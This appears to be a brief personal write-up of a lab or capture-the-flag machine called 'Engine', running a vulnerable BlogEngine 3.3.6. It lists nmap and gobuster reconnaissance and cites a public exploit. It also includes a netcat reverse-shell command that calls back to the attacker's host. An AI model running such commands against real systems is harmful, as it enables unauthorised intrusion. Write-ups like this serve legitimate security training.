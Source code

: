 ```yaml
---
title: Engine
created: '2020-07-07T08:05:38.783Z'
modified: '2020-07-07T08:31:10.527Z'
---
```


# Engine
- IP: `172.31.1.16`
- OS: `Windows`
## Enumeration
### Writeup
We are running BlogEngine 3.3.6 which is vulnerable: https://www.exploit-db.com/exploits/46353
We use that to get a shell
We can upload nc.exe from `/usr/share/windows-resources/binaries/nc.exe`

`start /b nc.exe 10.10.0.8 1234 -e cmd.exe`
### Commands
<details>
<summary>nmap</summary>

- `nmap -p 1-65535 -T4 -A -v 172.31.1.16`
```

```
</details>

<details>
<summary>gobuster</summary>

- `gobuster dir --wordlist /usr/share/wordlists/dirb/big.txt --url http://172.31.1.16/ -o commands/gobuster-80-root`
```
/aspnet_client (Status: 301)
/blog (Status: 200)
```
</details>

<details>
<summary></summary>

- ``
```

```
</details>
